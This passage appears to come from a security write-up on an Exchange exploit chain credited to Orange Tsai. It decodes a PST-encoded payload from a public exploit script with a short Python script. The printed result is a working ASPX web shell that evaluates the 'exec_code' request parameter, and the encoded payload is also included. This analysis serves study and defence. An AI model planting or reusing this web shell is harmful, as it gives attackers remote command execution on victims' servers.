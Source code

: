 - Orange tsai explain nicely in the article that the export is in PST format and can be encoded and decoded.

Let's first try to do a decode function to verify the payload send by the script.


```python
# decode.py
import base64
# payload in the script from github
webshell="ldZUhrdpFDnNqQbf96nf2v+CYWdUhrdpFII5hvcGqRT/gtbahqXahoLZnl33BlQUt9MGObmp39opINOpDYzJ6Z45OTk52qWpzYy+2lz32tYUfoLaddpUKVTTDdqCD2uC9wbWqV3agskxvtrWadMG1trzRAYNMZ45OTk5IZ6V+9ZUhrdpFNk="

def decode(payload):
    mpbbCryptFrom512 = [
        65, 54, 19, 98, 168, 33, 110, 187, 244, 22, 204, 4, 127, 100, 232, 93,
        30, 242, 203, 42, 116, 197, 94, 53, 210, 149, 71, 158, 150, 45, 154, 136,
        76, 125, 132, 63, 219, 172, 49, 182, 72, 95, 246, 196, 216, 57, 139, 231,
        35, 59, 56, 142, 200, 193, 223, 37, 177, 32, 165, 70, 96, 78, 156, 251,
        170, 211, 86, 81, 69, 124, 85, 0, 7, 201, 43, 157, 133, 155, 9, 160,
        143, 173, 179, 15, 99, 171, 137, 75, 215, 167, 21, 90, 113, 102, 66, 191,
        38, 74, 107, 152, 250, 234, 119, 83, 178, 112, 5, 44, 253, 89, 58, 134,
        126, 206, 6, 235, 130, 120, 87, 199, 141, 67, 175, 180, 28, 212, 91, 205,
        226, 233, 39, 79, 195, 8, 114, 128, 207, 176, 239, 245, 40, 109, 190, 48,
        77, 52, 146, 213, 14, 60, 34, 50, 229, 228, 249, 159, 194, 209, 10, 129,
        18, 225, 238, 145, 131, 118, 227, 151, 230, 97, 138, 23, 121, 164, 183, 220,
        144, 122, 92, 140, 2, 166, 202, 105, 222, 80, 26, 17, 147, 185, 82, 135,
        88, 252, 237, 29, 55, 73, 27, 106, 224, 41, 51, 153, 189, 108, 217, 148,
        243, 64, 84, 111, 240, 198, 115, 184, 214, 62, 101, 24, 68, 31, 221, 103,
        16, 241, 12, 25, 236, 174, 3, 161, 20, 123, 169, 11, 255, 248, 163, 192,
        162, 1, 247, 46, 188, 36, 104, 117, 13, 254, 186, 47, 181, 208, 218, 61
    ]

    tmp = ''
    for i in payload:
        tmp += chr(mpbbCryptFrom512[i])

    #assert '\n' not in tmp and '\r' not in tmp
    return tmp

webshell_decoded = base64.b64decode(webshell)
result = decode(webshell_decoded)
print(result)
```

When we run the script it show us the original payload:

```bash
# python3 decode.py 
<script language='JScript' runat='server'>
function Page_Load(){
    eval(Request['exec_code'],'unsafe');Response.End;
    }
</script>
```

